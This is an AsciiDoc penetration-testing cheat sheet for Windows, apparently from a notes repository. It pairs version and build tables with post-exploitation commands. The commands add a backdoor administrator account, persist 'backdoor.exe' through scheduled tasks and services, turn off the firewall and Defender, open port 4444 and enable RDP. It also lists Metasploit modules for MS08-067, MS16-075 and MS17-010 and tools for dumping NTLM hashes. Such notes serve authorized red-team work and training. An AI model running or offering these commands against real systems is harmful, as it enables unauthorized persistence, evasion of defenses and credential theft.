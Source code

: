 === Windows

==== Version Numbers

[cols="1,3"]
|===
|NT 5.0  |2000
|NT 5.1  |XP 32bit
|NT 5.2  |XP 64bit, Server 2003, Server 2003 R2
|NT 6.0  |Vista, Server 2008
|NT 6.1  |7, Server 2008 R2
|NT 6.2  |8, Server 2012
|NT 6.3  |8.1, Server 2012 R2
|NT 10.0 |10, Server 2016, Server 2019
|===

==== Windows 10 Build Numbers

[cols="1,2,2", options="header"]
|===
|Version |Name                 |Build Number
|1507    |                     |10.0.10240
|1511    |November Update      |10.0.10586
|1607    |Anniversary Update   |10.0.14393
|1703    |Creators Update      |10.0.15063
|1709    |Fall Creators Update |10.0.16299
|1803    |April 2018 Update    |10.0.17134
|1809    |October 2018         |10.0.17763
|1903    |May 2019 Update      |10.0.18362
|1909    |November 2019 Update |10.0.18363
|2004    |May 2020 Update      |10.0.19041
|20H2    |October 2020 Update  |10.0.19042
|===


==== User Management

  net user /domain

Get a list of all users on the domain

  net user USERNAME /domain

Get a list of groups on the domain to which that user belongs.

  net user brimstone password /add

Add user with the username `brimstone` and password `password`.

  net localgroup administrators brimstone /add

Add `brimstone` to the local administrators group.

  echo %computername%\%username%

Get current username on XP or when `whoami` fails.

==== Scheduled Tasks

  schtasks /create /tn task name /ru system /sc onlogon /tr backdoor.exe

Run task on user logon.

  schtasks /create /tn task name /ru system /sc onstart /tr backdoor.exe

Run task on system start.

  schtasks /create /tn task name /sc onidle /i 30 /tr backdoor.exe

Run task on user idle for 30 minutes.

==== Remote Access

  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f

Enable Remote Desktop

  reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f

Disable Remote Desktop

==== Service Management

  sc query state=all

Show services.

  sc create backdoor binPath= "c:\backdoor.exe"

Create new service with `backdoor.exe`. Must include quotes.


==== Firewall

  netsh firewall set opmode mode=DISABLE

Disable on XP/2003

  netsh advfirewall set  currentprofile state off

Disable on 7 and later

  netsh advfirewall firewall add rule name="Allow Port 4444" protocol=TCP dir=out remoteport=4444 action=allow

Allow a port.

  netsh advfirewall firewall add rule name="IP Allow" dir=in interface=any action=allow remoteip=192.168.1.2/32

Allow a host.

  netsh advfirewall firewall add rule name="Program Allow" program="c:\backdoor.exe" protocol=tcp dir=in enable=yes action=allow

Allow a program.

<<<

==== Defender

  Set-MpPreference -DisableRealTimeMonitoring $true

Disable completely. Yields a ballon notification to logged on users.

  Add-MpPreference -ExclusionPath "C:\Temp"

Add excluded directory.

  use post/windows/gather/enum_av_excluded

List off excluded directories from meterpreter session.

==== Find interesting things

  wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """

wmic search unquoted paths

==== Exploits
===== MS08-067

[cols=">1,3"]
|===
|Affects           |XP, 2003
|Metasploit Module |exploit/windows/smb/ms08_067_netapi
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

===== MS16-075

[cols=">1,3"]
|===
|Affects           |Windows 7 on?
|Metasploit Module |exploit/windows/local/ms16_075_reflection_juicy
|Type              |local, privilege escalation
|===

Detection: Run `whoami /getprivs` and look for `SeImpersonate` or `SeAssignPrimaryToken`

===== MS17-010

[cols=">1,3"]
|===
|Affects           |Pretty much everything. XP through Windows 10
|Metasploit Module |exploit/windows/smb/ms17_010_psexec
|Type              |remote
|===

This is a vulnerability in SMB that invites `NT_AUTHORITY/SYSTEM` access.

==== NTLM Hashes

- `AAD3B435B51404EEAAD3B435B51404EE` is the empty LANMAN hash, don't try to crack it
- `31D6CFE0D16AE931B73C59D7E0C089C0` is the empty NT hash, don't try to crack it either

===== Local acquisition
- impacket's `hashdump`

===== Remote Acquisition
- impacket's `secretsdump.py`
- mimikatz (TODO?)


<<<
